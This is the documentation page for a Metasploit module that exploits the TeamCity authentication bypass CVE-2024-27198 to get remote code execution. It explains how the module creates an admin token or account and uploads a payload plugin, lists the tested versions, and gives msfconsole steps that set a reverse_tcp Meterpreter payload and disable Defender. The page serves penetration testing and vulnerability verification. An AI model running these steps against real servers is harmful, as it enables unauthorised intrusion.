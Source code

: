 ## Vulnerable Application
This module exploits an authentication bypass vulnerability in JetBrains TeamCity. An unauthenticated
attacker can leverage this to access the REST API and create a new administrator access token. This token
can be used to upload a plugin which contains a Metasploit payload, allowing the attacker to achieve
unauthenticated RCE on the target TeamCity server. On older versions of TeamCity, access tokens do not exist
so the exploit will instead create a new administrator account before uploading a plugin. Older version of
Team city have a debug endpoint (/app/rest/debug/process) that allows for arbitrary commands to be executed,
however recent version of TeamCity no longer ship this endpoint, hence why a plugin is leveraged for code
execution instead, as this is supported on all versions tested.

For a technical analysis of the vulnerability, read our [Rapid7 Analysis](https://attackerkb.com/topics/K3wddwP3IJ/cve-2024-27198/rapid7-analysis).

## Testing
[Download](https://www.jetbrains.com/teamcity/download/) and
[install](https://www.jetbrains.com/help/teamcity/install-and-start-teamcity-server.html) a vulnerable version of
TeamCity for either Windows or Linux, e.g. version 2023.11.3. By default the server will listen for HTTP
connections on port 8111 (Older version of the product listen on port 80 by default).

The exploit has been tested against:
 * TeamCity 2023.11.3 (build 147512) running on Windows Server 2022
 * TeamCity 2023.11.2 (build 147486) running on Windows Server 2022
 * TeamCity 2023.11.3 (build 147512) running on Linux
 * TeamCity 2018.2.4 (build 61678) running on Windows Server 2016

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

Note: The check routine will display the target platform, this can be used to decide what target to select if the
command payloads are to be used. The Java payloads are platform agnostic.

1. Start msfconsole
2. `use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set payload java/meterpreter/reverse_tcp`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Options
